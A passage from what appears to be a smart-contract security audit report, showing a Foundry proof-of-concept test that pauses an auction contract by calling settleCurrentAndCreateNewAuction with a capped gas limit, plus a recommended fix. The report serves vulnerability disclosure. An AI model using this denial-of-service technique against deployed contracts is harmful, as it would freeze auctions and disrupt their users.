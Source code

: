 >        uint256 bidAmount = auction.reservePrice();
>        vm.deal(address(creators[nCreators]), bidAmount + 1 ether);
>        vm.startPrank(address(creators[nCreators]));
>        auction.createBid{ value: bidAmount }(verbId, address(creators[nCreators]));
>        vm.stopPrank();
>
>        vm.warp(block.timestamp + auction.duration() + 1); // Fast forward time to end the auction
>
>        // create another art piece so that it's possible to create next auction
>        createArtPieceMultiCreator(
>            "Multi Creator Art",
>            "An art piece with multiple creators", 
>            ICultureIndex.MediaType.IMAGE,
>            "ipfs://multi-creator-art",
>            "",
>            "",
>            creatorAddresses,
>            creatorBps
>        );
>    }
>
>    function testDOS4() public
>    {
>        vm.startPrank(cultureIndex.owner());
>        cultureIndex._setQuorumVotesBPS(0);
>        vm.stopPrank();
>
>        _createAndFinishAuction();
>
>        assert(auction.paused() == false);
>        // 2 900 000 will be enough to perform the attack
>        auction.settleCurrentAndCreateNewAuction{ gas: 2_900_000 }();
>        assert(auction.paused());
>    }
>```
>
>## Tools Used
>
>VS Code
>
>## Recommended Mitigation Steps
>
>Preventing OOG with `MIN_TOKEN_MINT_GAS_THRESHOLD` will not work as, I have shown before, there are at least `3` ways for attackers to boost the amount of gas used in `VerbsToken::mint`.
>
>In order to fix the issue, consider changing `catch` to `catch Error(string memory)` that will not catch OOG exceptions.
>
>## Assessed type
>
>DoS
